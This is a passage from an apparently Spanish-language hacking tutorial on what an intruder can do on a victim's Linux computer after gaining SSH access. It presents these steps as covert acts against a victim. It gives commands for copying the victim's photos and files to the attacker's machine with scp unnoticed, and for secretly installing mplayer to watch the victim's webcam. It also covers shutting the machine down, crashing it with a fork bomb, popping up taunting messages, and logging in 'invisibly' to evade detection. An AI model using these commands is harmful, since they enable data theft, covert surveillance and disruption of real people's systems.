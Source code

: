 Esta es la pregunta más interesante que vuestro lado pícaro os habrá formulado y creo que ya sabeis la respuesta, efectivamente la respuesta es **TODO**, podemos ver sus directorios, sus ficheros, fotos, videos, proyectos y demás. Veamos algunas cositas interantes.

Supongamos que la víctima tiene una carpeta de fotos y nosotros queremos "tomarlas prestadas", pues bien esto se hace mediante `scp`.

Suponemos la siguiente foto `foto.png`, estamos ya dentro de su ordenador, queremos pasar esta foto a nuestro PC, más concretamente a nuestro escritorio, pues bien lo único que necesitamos saber es **nuestra IP privada**, una ves la sepamos podemos ahcer lo siguiente: `scp foto.png USUARIO@NUESTRAIPPRIVADA:/home/usuario/escritorio`, siendo **USUARIO** tu nombre de usuario, y siendo **NUESTRAIPPRIVADA** tu IP privada, te pedirá después la pass de tu ordenador y acto seguido se procederá a la transferencia del archivo, se despierta tu curiosidad cierto, claro si eres capaz de "tomar prestado" una foto eres capaz de obtener cualquier archivo, y lo mejor es que la víctima no tendrá constancia de esto.

Otra de las cosas que se pueden hacer es **ver su cámara**, desactivar la luz que tiene la camara es bien sencillo, os lo dejo que lo investigueis por vuestra cuenta. Bien ponemos el supuesto de que estamos en su terminal con la conexión ya realizada, por lo que cualquier comando que escribamos afectará a su sistema. Si hacemos un `sudo halt` por ejemplo se le apagará el PC si confirmación ni nada por el estilo, y claro si podemos hacer esto ¿porque no podríamos instalarle algo sin que se diera cuenta?, bien vamos a instalarle el siguiente programa `sudo apt-get install mplayer` y una vez que esté instalado usa el siguiente comando: `mplayer -fps 20 -cache 50 -tv driver=vl42:width=64:height=48:device=/dev/video0 tv://`, esto te va a permitir ver su camara remotamente(obviamente se le encenderá la luz si no la habeis quitado).

También podemos colapsarle el sistema haciendo uso de una llamada recursiva, para ello hacemos lo siguiente: `colapso(){ colapso | colapso & }; colapso`, si sabeís de llamadas recursivas sabreis que se está haciendo aqui si no os lo dejo para que lo investigueis.

Podemos también abrir cualquier programa y ejecutar cualquier aplicación, para ello haremos antes que nada export `display=:0.0`, y ya luego podemos escribir por ejemplo firefox para que se habra el navegador.

También podemos mandarle mensajes por pantalla usando el siguiente comando: `zenity --info --text="Estoy en tu sistema" --display=:0`

# ¿Puedo entrar de manera invisible?

Claro que sí, así a la hora de realizar un escaneo no se detectará que hay alguien más en sus sistema. Esto lo podemos hacer de la siguiente manera: `ssh -t USER@HOST /bin/bash -I`
